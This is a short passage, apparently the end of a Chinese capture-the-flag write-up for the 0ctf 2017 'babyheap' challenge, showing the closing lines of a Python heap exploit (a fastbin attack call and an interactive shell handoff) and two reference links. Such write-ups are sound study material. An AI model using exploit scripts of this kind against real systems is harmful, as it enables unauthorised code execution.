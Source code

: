 ```python
    fastbin_attack(libc_base)
    p.interactive()

if __name__ == "__main__":
    main()
```
### 参考资料
1. [0ctf 2017 babyheap writeup](http://blog.csdn.net/qq_29343201/article/details/66476135)(exp有问题)
2. [gd表哥的babyheap](https://bbs.pediy.com/thread-223461.htm)
